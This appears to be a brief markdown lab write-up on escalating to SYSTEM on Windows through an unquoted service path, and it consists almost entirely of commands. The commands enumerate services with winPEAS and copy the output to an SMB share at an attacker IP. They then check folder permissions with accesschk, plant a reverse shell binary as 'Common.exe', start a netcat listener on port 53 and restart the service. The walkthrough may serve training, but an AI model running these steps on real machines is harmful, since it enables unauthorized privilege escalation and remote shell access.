





1x2 Service - Unquoated Path

## Service - Unquoated Path
```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt
copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt
cat wpeas_services_op.txt
```
Identified 1 service mis-configuration



```bash
sc qc unquotedsvc
```


```console
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\"
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\Common Files\"
```


```console
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```


```bash
sudo nc -nvlp 53
net start unquotedsvc
```

**Got System**

